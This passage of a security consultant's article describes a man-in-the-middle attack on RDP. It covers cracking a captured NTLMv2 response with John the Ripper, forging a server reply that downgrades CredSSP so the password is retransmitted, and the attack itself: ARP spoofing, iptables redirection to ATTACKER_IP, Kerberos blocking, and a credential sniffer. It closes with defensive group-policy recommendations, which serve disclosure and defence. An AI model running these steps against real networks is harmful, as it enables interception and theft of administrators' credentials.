inside the SSL tunnel, but the server always chooses "None" as the
encryption level. That's fine, since it can be safely assumed that the SSL
wrapper ensures the authenticity and integrity of the data. Using RC4 on top
of SSL is a needless waste of resources. The extraction of key strokes works
exactly like in the previous section.

Go ahead and try it out.

As expected, the victim sees a proper SSL warning. But something is still
different. Instead of being prompted for our credentials before the RDP
connection is established, the victim is faced with the Windows logon
screen. Unlike with NLA, authentication happens inside the session. Again,
that's something that is different from the typical workflow of an admin and
could be noticed.

Breaking CredSSP
----------------

Okay, I'll admit it right here: We're not going to break CredSSP. But we'll
find a way to circumvent it.

First, let's see what happens if we don't downgrade the connection at all.
The relevant message to the server is this one:

<pre>
From client:
00000000: 30 82 02 85 A0 03 02 01  04 A1 82 01 DA 30 82 01  0............0..
00000010: D6 30 82 01 D2 A0 82 01  CE 04 82 01 CA 4E 54 4C  .0...........NTL
00000020: 4D 53 53 50 00 03 00 00  00 18 00 18 00 74 00 00  MSSP.........t..
00000030: 00 2E 01 2E 01 8C 00 00  00 08 00 08 00 58 00 00  .............X..
00000040: 00 0A 00 0A 00 60 00 00  00 0A 00 0A 00 6A 00 00  .....`.......j..
00000050: 00 10 00 10 00 BA 01 00  00 35 82 88 E2 0A 00 39  .........5.....9
00000060: 38 00 00 00 0F 6D 49 C4  55 46 C0 67 E4 B4 5D 86  8....mI.UF.g..].
00000070: 8A FC 3B 59 94 52 00 44  00 31 00 34 00 55 00 73  ..;Y.R.D.1.4.U.s
00000080: 00 65 00 72 00 31 00 57  00 49 00 4E 00 31 00 30  .e.r.1.W.I.N.1.0
00000090: 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
000000A0: 00 00 00 00 00 00 00 00  00 <b>11 0D 65 8E 92 7F 07</b>  .........<b>..e....</b>
000000B0: <b>7B 04 02 04 0C C1 A6 B6  EF 01 01 00 00 00 00 00  {...............</b>
000000C0: <b>00 D5 FD A8 7C EC 95 D2  01 A7 55 9D 44 F4 31 84  ....|.....U.D.1.</b>
000000D0: <b>8A 00 00 00 00 02 00 08  00 52 00 44 00 31 00 34  .........R.D.1.4</b>
000000E0: <b>00 01 00 08 00 44 00 43  00 30 00 31 00 04 00 14  .....D.C.0.1....</b>
000000F0: <b>00 72 00 64 00 31 00 34  00 2E 00 6C 00 6F 00 63  .r.d.1.4...l.o.c</b>
00000100: <b>00 61 00 6C 00 03 00 1E  00 64 00 63 00 30 00 31  .a.l.....d.c.0.1</b>
00000110: <b>00 2E 00 72 00 64 00 31  00 34 00 2E 00 6C 00 6F  ...r.d.1.4...l.o</b>
00000120: <b>00 63 00 61 00 6C 00 05  00 14 00 72 00 64 00 31  .c.a.l.....r.d.1</b>
00000130: <b>00 34 00 2E 00 6C 00 6F  00 63 00 61 00 6C 00 07  .4...l.o.c.a.l..</b>
00000140: <b>00 08 00 D5 FD A8 7C EC  95 D2 01 06 00 04 00 02  ......|.........</b>
00000150: <b>00 00 00 08 00 30 00 30  00 00 00 00 00 00 00 00  .....0.0........</b>
00000160: <b>00 00 00 00 20 00 00 4C  FA 6E 96 10 9B D9 0F 6A  .... ..L.n.....j</b>
00000170: <b>40 80 DA AA 8E 26 4E 4E  BF AF FA E9 E3 68 AF 78  @....&NN.....h.x</b>
00000180: <b>7F 53 E3 89 D9 6B 18 0A  00 10 00 00 00 00 00 00  .S...k..........</b>
00000190: <b>00 00 00 00 00 00 00 00  00 00 00 09 00 2C 00 54  .............,.T</b>
000001A0: <b>00 45 00 52 00 4D 00 53  00 52 00 56 00 2F 00 31  .E.R.M.S.R.V./.1</b>
000001B0: <b>00 39 00 32 00 2E 00 31  00 36 00 38 00 2E 00 34  .9.2...1.6.8...4</b>
000001C0: <b>00 30 00 2E 00 31 00 37  00 39 00 00 00 00 00 00  .0...1.7.9......</b>
000001D0: <b>00 00 00 00 00 00 00</b> 19  0A F7 ED 0C 45 C0 80 73  <b>........</b>....E..s
000001E0: 53 74 1A AB AF 13 B4 A3  81 9F 04 81 9C 01 00 00  St..............
000001F0: 00 7F 38 FE A6 32 5E 4E  57 00 00 00 00 42 B4 6E  ..8..2^NW....B.n
00000200: 39 09 AA CC 8F 04 71 5C  54 CF AD E0 A0 58 AA 06  9.....q\T....X..
00000210: B2 F0 0A 33 05 03 54 60  FB E1 68 FC F5 0D A9 C0  ...3..T`..h.....
00000220: D9 57 BA 43 F2 92 F7 6F  32 74 4E 86 CD 7F F0 3B  .W.C...o2tN....;
00000230: DD A4 A4 67 0A B7 7E 64  0B 63 D7 4B F7 C6 B7 8F  ...g..~d.c.K....
00000240: 21 15 9D EA 3E E1 1A 50  AB AA D3 6E 46 9D 68 6E  !...>..P...nF.hn
00000250: 2A EA 44 5C E0 51 1D 41  B4 13 EB B9 90 E8 75 AD  *.D\.Q.A......u.
00000260: A0 99 4E F2 A5 99 D4 8D  2A 11 73 F1 95 FC 7E A0  ..N.....*.s...~.
00000270: 06 FD 13 DB D0 3B 7A B4  41 97 B6 94 D4 11 62 F5  .....;z.A.....b.
00000280: 4C 06 BE 03 9C 0F 55 0E  3C                       L.....U.&lt;
</pre>

I highlighted the Client Challenge and NTLM response. Both are right next to
each other. The Server Challenge was in the previous message from the
server.

What we are looking at here is [NTLM
authentication](https://msdn.microsoft.com/en-us/library/aa378749%28VS.85%29.aspx).
It's a challenge-response technique where the client maps a Server Challenge
(similar to the Server Random from earlier), a Client Challenge, and the
hash of the user's password together with some other values onto a
cryptographic hash value. This value, called the _NTLM response_, is then
transmitted to the server.

The details of how this value is computed are not
important to us. The only thing we need to know is that
it cannot be replayed or used for Pass-the-Hash
attacks. But it can be subjected to password guessing attacks! The
underlying hash algorithm is HMAC-MD5, which is a fairly cheap hash
algorithm (so we can do many guesses per second) but it is also using a salt
(which rules out rainbow tables).

We can now try to crack it with [Hashcat](https://hashcat.net/hashcat/) or
[John The Ripper](http://www.openwall.com/john/). The [format of the
hash](https://www.root9b.com/sites/default/files/whitepapers/R9B_blog_003_whitepaper_01.pdf)
for John is this:

    <Username>::<Domain>:<ServerChallenge>:<ClientChallenge>:<NTLMResponse>

So in our case we would have:

    User1::RD14:a5f46f6489dc654f:110d658e927f077b0402040cc1a6b6ef:0101000000000000d5fda87cec95d201a7559d44f431848a000000000200080052004400310034000100080044004300300031000400140072006400310034002e006c006f00630061006c0003001e0064006300300031002e0072006400310034002e006c006f00630061006c000500140072006400310034002e006c006f00630061006c0007000800d5fda87cec95d201060004000200000008003000300000000000000000000000002000004cfa6e96109bd90f6a4080daaa8e264e4ebfaffae9e368af787f53e389d96b180a0010000000000000000000000000000000000009002c005400450052004d005300520056002f003100390032002e003100360038002e00340030002e00310037003900000000000000000000000000

This command verifies that we got it right:
<pre>
$ echo 'S00perS3cretPa$$word' | ./john --format=netntlmv2 --stdin <(echo "User1::RD14:a5f46f6489dc654f:110d658e927f077b0402040cc1a6b6ef:0101000000000000d5fda87cec95d201a7559d44f431848a000000000200080052004400310034000100080044004300300031000400140072006400310034002e006c006f00630061006c0003001e0064006300300031002e0072006400310034002e006c006f00630061006c000500140072006400310034002e006c006f00630061006c0007000800d5fda87cec95d201060004000200000008003000300000000000000000000000002000004cfa6e96109bd90f6a4080daaa8e264e4ebfaffae9e368af787f53e389d96b180a0010000000000000000000000000000000000009002c005400450052004d005300520056002f003100390032002e003100360038002e00340030002e00310037003900000000000000000000000000")
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 8 OpenMP threads
Press Ctrl-C to abort, or send SIGUSR1 to john process for status
<b>S00perS3cretPa$$word (User1)</b>
1g 0:00:00:00  33.33g/s 33.33p/s 33.33c/s 33.33C/s S00perS3cretPa$$word
Use the "--show" option to display all of the cracked passwords reliably
Session completed
</pre>

So this is better than nothing. But we can do better.

The question we need to ask ourselves is: How does the server verify the
NTLM response? It asks the domain controller. What if the domain controller
is not available? It says "screw it, let's do enhanced RDP security instead
of NLA", and the client will comply. And the kicker is: Since the client
already cached the user's password, it will simply transmit it instead of
directing the user to the Windows login screen! That's precisely what we
wanted. Except for the SSL warning (which the victim might be used to
anyway), nothing suspicious will happen at all.

So what we do is this: After the client sends its NTLM response, we'll
replace the server's answer with this:

<pre>
00000000: 300d a003 0201 04a4 0602 04c0 0000 5e    0.............^
</pre>

I couldn't find documentation on this anywhere (if you did, please write me
an e-mail), but this is what the server responds with if it can't contact
the domain controller. The client will fall back to enhanced RDP security,
show the SSL warning, and transmit the password inside the SSL tunnel to the
server.

As a side remark, note that we didn't get an SSL warning. According to the
[specifications](https://msdn.microsoft.com/en-us/library/cc226780.aspx),
the client will send the SSL certificate's fingerprint to the server
encrypted with the key negotiated by the CredSSP protocol. If it doesn't
match the fingerprint of the server's certificate, the session is
terminated.

That's the reason why the above works if the victim provides incorrect
credentials - we're able to see the (incorrect) password. However, if the
password is correct, we'll observe a TLS internal error.

A workaround that I came up with was to simply tamper with the NTLM
response. I changed the Python script so that the NTLM authentication will
always fail by changing the NTLM response. Our victim won't notice, because
as we just saw, we can downgrade the connection to TLS, after which the
credentials will be retransmitted.

However, there is one more thing we need to take into account. If the client
can tell that you're trying to connect to a domain-joined computer, it won't
use NTLM. It will want to use Kerberos, which means it will contact the
domain controller before establishing the RDP connection to request a
ticket. That's a good thing, because a Kerberos ticket is even more useless
to an attacker than a salted NTLM response. But if the attacker is in a MitM
position, he could block all requests to the Kerberos service. And guess
what happens if the client can't contact the Kerberos service? Exactly, it
will fall back to NTLM.

Weaponizing this attack
-----------------------

The rest is simply a finger exercise. Until now, we have been dealing with a
lab environment. The victim won't be entering our IP in the RDP client, it
will be entering the IP or the host name of their own server. There are a
number of ways to gain a MitM position, but here we will choose ARP
spoofing. It's easy enough to do for a moment to demonstrate this as a proof
of concept. Since it is a layer-2 attack, we do need to be on the same
subnet as our victim, though.

After we spoofed the ARP replies and enabled forwarding of IPv4 traffic,
all communications between the victim and the gateway will run through our
machine. Since we still don't know the IP address the victim entered, we can't
run our Python script yet.

First, we create an `iptables` rule that rejects SYN packets coming from
the victim intended for an RDP server:

    $ iptables -A FORWARD -p tcp -s "$VICTIM_IP" --syn --dport 3389 -j REJECT

We wouldn't want to redirect any other traffic yet, since the victim might
be using an established RDP connection already, which would get disrupted
otherwise. If we wouldn't reject those packets here, the victim would
actually establish a connection with the genuine host, while we want them to
connect to us instead.

Second, we wait for a TCP SYN packet with destination port 3389 from the
victim in order to learn the address of the original destination host.  We
use `tcpdump` for this:

    $ tcpdump -n -c 1 -i "$IFACE" src host "$VICTIM_IP" and \
        "tcp[tcpflags] & tcp-syn != 0" and \
        dst port 3389 2> /dev/null  | \
        sed -e  's/.*> \([0-9.]*\)\.3389:.*/\1/'

The `-c 1` options tells `tcpdump` to exit after the first matching packet.
This SYN packet will be lost, but that doesn't really matter, it will only
be a short while before the victim's system will try again.

Third, we'll retrieve the SSL certificate of the RDP server and create a new
self-signed certificate that has the same common name as the original
certificate. We could also fix the certificate's expiration date, and it
will be literally indistinguishable from the original unless you take a
long, hard look at its fingerprint. I wrote a [small Bash script](...) to
do the job for us.

Now we remove the `iptables` rule from earlier and redirect _all_ TCP traffic
coming from the victim destined for the genuine RDP host to our IP address:

    $ iptables -t nat -A PREROUTING -p tcp -d "$ORIGINAL_DEST" \
        -s "$VICTIM_IP" --dport 3389 -j DNAT --to-destination "$ATTACKER_IP"

To enforce the downgrade from Kerberos to NTLM, we block all TCP
traffic originating from the victim to destination port 88:

    $ iptables -A INPUT -p tcp -s "$VICTIM_IP" --dport 88 \
        -j REJECT --reject-with tcp-reset

At this point we have all the information we need to run our Python script:

    $ rdp-cred-sniffer.py -c "$CERTPATH" -k "$KEYPATH" "$ORIGINAL_DEST"

Recommendations
---------------

Now you're probably wondering what you, as a system administrator, can do
about all of this to keep your network secure.

Ideally, servers must insist on using CredSSP (NLA). This can be rolled out
as a [group
policy](https://technet.microsoft.com/en-us/library/cc771869(v=ws.10).aspx):

Computer configuration &rarr; Policies &rarr; Administrative Templates
&rarr; Windows Components &rarr; Remote Desktop Services (or Terminal
Services) &rarr; Remote Desktop Session Host (or Terminal Server) &rarr;
Security &rarr; Require user authentication for remote connections by using
Network Level Authentication

Also, in case the attacker tries to downgrade the security protocol (or sets
up an entire fake RDP service), it is absolutely critical that RDP
connections cannot happen if the server's identity cannot be verified, i.e.
if the SSL certificate is not signed by a trusted certificate authority
(CA). Clients must be [configured via
GPO](https://technet.microsoft.com/en-us/library/cc753945(v=ws.10).aspx) to
disallow connections if the certificate cannot be validated:

Computer configuration &rarr; Policies &rarr; Administrative Templates
&rarr; Windows Components &rarr; Remote Desktop Services (or Terminal
Services) &rarr; Remote Desktop Connection Client &rarr; Configure server
authentication for client

If you cannot use solely NLA due to compatibility issues, you must sign all
server certificates with your enterprise CA.

<!-- and disallow standard RDP
security. You can do so by setting the GPO "Require use of specific security
layer for remote connections" to TLS.

 -->

In case you have Linux machines connecting to Windows Terminal Servers via
RDP, I should mention here that the popular RDP client `rdesktop` is not
capable of NLA and does not validate SSL certificates at all. One
alternative, `xfreerdp`, does at least validate the certificate.

Lastly, you are encouraged to educate your colleagues and users that SSL
warnings are not to be taken lightly, whether it's in the context of RDP or
HTTPS or anything else. As the administrator, you are responsible for making
sure that your client systems have your root CA in their list of trusted
CAs. This way, these warnings should be the exception rather than the rule
and warrant a call to the IT department.

If you have any more questions or comments, just [let me
know](mailto:rdp@vollmer.syss.de).

- Dr. Adrian Vollmer, IT Security Consultant at SySS GmbH
